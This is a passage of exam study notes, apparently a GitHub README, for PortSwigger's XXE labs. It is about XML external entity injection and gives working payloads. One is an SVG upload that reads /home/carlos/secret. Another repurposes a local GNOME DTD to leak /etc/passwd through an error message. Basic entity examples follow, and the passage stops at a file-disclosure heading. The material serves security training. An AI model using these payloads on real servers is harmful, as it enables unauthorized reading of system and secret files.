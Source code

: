     ```xml
    <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/carlos/secret" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
    ```

    !https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/xxe-svg-upload.png
*   [ ] [**Exploiting XXE to retrieve data by repurposing a local DTD**](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)

    > Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

    ```xml
    <!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```

    #### XML External Entity (XXE) Injection Payloads

    #### XXE: Basic XML Example

    ```
    <!--?xml version="1.0" ?-->
    <userInfo>
     <firstName>John</firstName>
     <lastName>Doe</lastName>
    </userInfo>

    ```

    #### XXE: Entity Example

    ```
    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example "Doe"> ]>
     <userInfo>
      <firstName>John</firstName>
      <lastName>&example;</lastName>
     </userInfo>

    ```

    #### XXE: File Disclosure
